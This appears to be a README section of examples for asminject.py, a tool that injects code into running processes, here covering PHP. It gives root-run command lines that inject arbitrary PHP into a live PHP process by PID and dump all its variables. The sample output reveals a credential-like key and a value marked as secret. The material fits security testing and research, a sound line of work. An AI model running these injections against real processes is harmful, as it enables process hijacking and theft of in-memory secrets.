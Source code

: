 # asminject.py examples - PHP
* [Execute arbitrary PHP code inside an existing PHP process](#execute-arbitrary-php-code-inside-an-existing-php-process)
* [Write all variables to standard out](#write-all-variables-to-standard-out)

## Execute arbitrary PHP code inside an existing PHP process

The `execute_php_code.s` payload requires two variables: `phpcode`, which should contain the PHP code that should be executed in the existing PHP process, and `phpname`, which can generally be set to any string.

This payload requires relative offsets for the `php` binary used by the target process.

In one terminal window, launch the practice PHP loop, e.g.:

```
$ php practice/php_loop.php

2022-05-12T13:40:51-0700 - Loop count 0
2022-05-12T13:40:56-0700 - Loop count 1
2022-05-12T13:41:01-0700 - Loop count 2
```

In a separate window, find the target process, and inject the code:

```
# ps auxww | grep php | grep -v grep  
  
root     2037629  [...] php practice/php_loop.php

# python3 ./asminject.py 2037629 execute_php_code.s \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var phpcode "echo \\\"Injected PHP code\\\n\\\";" \
   --var phpname PHP
```

In the first window, note that the loop is interrupted by the injected code, e.g.:

```
2022-05-12T13:41:46-0700 - Loop count 11
Injected PHP code
2022-05-12T13:41:53-0700 - Loop count 12
2022-05-12T13:41:58-0700 - Loop count 13
```

## Write all variables to standard out

Use [the following PHP code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/1005021/in-php-is-there-a-way-to-dump-all-variable-names-with-their-corresponding-valu)

```
var_dump(get_defined_vars());
```

e.g.

```
python3 ./asminject.py 249986 execute_php_code.s --arch x86-64 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var phpcode "var_dump(get_defined_vars());" \
   --var phpname PHP
```


Example output:

```
2022-06-09T16:18:04-0700 - Loop count 8
array(11) {
  ["_GET"]=>
  array(0) {
  }
  ["_POST"]=>
  array(0) {
  }
  ["_COOKIE"]=>
  array(0) {
  }
  ["_FILES"]=>
  array(0) {
  }
  ["argv"]=>
  array(1) {
    [0]=>
    string(21) "practice/php_loop.php"
  }
...omitted for brevity...
["example_global_var_1"]=>
  string(20) "AKIASADF9370235SUAS0"
  ["example_global_var_2"]=>
  string(34) "This value should not be disclosed"
  ["x"]=>
  int(8)
  ["current_timestamp"]=>
  string(24) "2022-06-09T16:18:04-0700"
}
2022-06-09T16:18:13-0700 - Loop count 9
```

